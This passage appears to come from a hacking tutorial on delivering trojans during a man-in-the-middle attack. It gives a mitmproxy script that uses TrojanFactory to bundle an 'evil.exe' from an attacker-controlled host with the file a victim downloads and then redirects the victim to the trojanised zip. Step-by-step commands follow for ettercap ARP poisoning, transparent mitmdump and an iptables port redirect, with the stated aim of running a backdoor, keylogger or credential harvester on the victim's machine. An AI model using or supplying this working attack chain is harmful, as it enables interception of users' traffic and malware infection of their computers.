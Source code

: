             front_file = flow.request.pretty_url + "#"

            subprocess.call("python /opt/TrojanFactory/trojan_factory.py -f '" + front_file + "' -e http://10.15.232.5/evil.exe -o /var/www/html/file.exe# -i /root/Downloads/pdf.ico", shell=True)

            flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.232.5/file.zip"})
    ```
Note: I am using subprocess.call to run a bash command, here, I am appending the full path to TrojanFactory since I am trying to access it outside the directory. -f is the front file that will be displayed to the user (in this I am creating a variable, storing the value of the file that the user downloads in that variable, and then I am using that variable for -f). Hence, I have created the variable called front_file and thats going to be equal to the file that the user is downloading. -e is the evil file which is stored in my /var/www/html. -o is the location to store the result, -i is the location of the Trojan icon that is to be used. If you look closely, I am using a hash sign for -f and -e file so that it does not get intercepted in the if condition and the code does not get stuck in a loop.

**Testing Script On A Remote Computer To Replace Downloads With a Trojan.**
1. Now that we know how to create trojans and we have a working script that will replace downloads on the fly with any file that we want, lets test this script against a remote computer. We will start by running an ARP spoofing attack against the client computer using Ettercap. (Note: we can use MTIMproxy whenever we are the man in the middle, hence it can be used with ARP spoofing attack, with Fake AP or rather with any other scenario. For convenience, we will use Ettercap to become the man in the middle.)
    ```shell
    ettercap -Tq -M arp:oneway -i wlan0 -S /10.15.232.1// /10.15.232.9//
    ```
(Note: the above command will silently execute an ARP poison attack using the interface wlan0 and the -S is so that it does not forge an SSL certificate.)

2. Next, we will run MITMproxy in a separate terminal window. So, first go into the working directory of MITMproxy and run the following.
    ```shell
    ./mitmdump -s /root/proxyscript.py --transparent
    ```
(Note: since browser is not configured to run a proxy, we are going to use the transparent mode. Here -s is the location of my MITM python script.)

3. Next, we have to run an iptables command in a separate terminal window to redirect all data to port 8080 where MITMproxy is running, since all the client data is flowing to port 80 (which is my default web server port).
    ```shell
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
    ```

4. So now when a client clicks on a pdf download, the download will get redirected and it will prompt the client to download our evil zip file. When the client unzips and opens the PDF, our evil file will get executed. (This evil file could be a backdoor, a key logger, a credential harvester, etc.)
